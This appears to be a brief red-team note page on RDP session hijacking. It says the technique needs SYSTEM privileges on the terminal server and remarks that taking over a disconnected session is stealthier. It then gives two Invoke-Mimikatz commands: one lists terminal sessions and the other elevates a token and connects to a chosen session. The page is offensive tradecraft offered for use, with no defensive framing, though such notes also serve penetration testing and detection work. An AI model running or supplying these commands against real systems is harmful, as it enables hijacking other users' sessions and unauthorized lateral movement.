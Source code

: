 # RDP Hijacking

This method is not stealthy and will disconnect a users active terminal service session. However, you will also be able to connect to a disconnected session which could be stealthier.

This method also requires privileges as SYSTEM on the terminal server host.

### 1) Mimikatz

    Invoke-Mimikatz -Command '"ts::sessions"'

### 2) Connect to the terminal services session

    Invoke-Mimikatz -Command '"token::elevate" "ts::remote /id:SESSION_ID"'
